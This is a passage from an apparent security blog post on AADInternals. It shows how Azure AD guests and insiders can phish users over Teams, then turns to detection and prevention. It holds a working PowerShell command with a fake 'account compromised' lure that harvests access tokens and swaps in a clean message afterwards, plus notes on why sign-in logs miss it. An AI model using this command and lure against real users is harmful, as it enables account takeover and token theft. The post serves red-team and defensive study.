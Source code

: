 # Phishing

Just like the <a href="/post/just-looking#phishing" target="_blank">outsider</a> can <a href="/post/phishing/#email" target="_blank">send phishing emails</a>, so can guests. 
However, guests and <a href="/post/insider" target="_blank">insiders</a> can also <a href="/post/phishing/#teams" target="_blank">send phishing messages using Teams</a>.

The message to be sent can be customised. When using Teams for phishing, AADInternals replaces the original phishing message with a clean message after the tokens are received.
This message can be customise with -CleanMessage parameter.

The example below sends a custom message:
{{< highlight powershell >}}
# Send a phishing email to recipients using customised messages and save the tokens to cache
$message = 'Your Microsoft account has been compromised. Login at <a href="{1}">https://microsoft.com</a> to reset your password. <br> Use the following security code: <b>{0}</b>.' 
Invoke-AADIntPhishing -Recipients "wvictim@company.com","wvictim2@company.com" -Message $message -CleanMessage "🙂" -Teams -SaveToCache
{{< /highlight>}}
```
Code: CKDZ2BURF
Mail sent to: wvictim@company.com
Mail sent to: wvictim2@company.com
...
Received access token for william.victim@company.com
```


# Detecting

Azure AD <a href="https://docs.microsoft.com/en-us/azure/active-directory/reports-monitoring/reference-reports-data-retention#how-long-does-azure-ad-store-the-data" target="_blank">sign-in log</a>
is now available for all Azure AD editions. So, this would be an obvious place to start with. However, the AADInternals functions are using the application id of Microsoft Office (d3590ed6-52b3-4102-aeff-aad2292ab01c).
This means that getting a new access token seems to be a legit login event. 

The API calls to Azure AD are not logged and therefore the users' actions can not be detected.

# Preventing

Traditionally only thing to restrict guests access was to <a href="/post/limit-user-access/#block-users-access-to-others-information" target="_blank">block access to other users' data</a> for all users.
Unfortunately, this also prevented normal users from adding others to Teams and groups so it was not very practical way.

However, there is a new feature in preview which allows restricting guests access to group members:
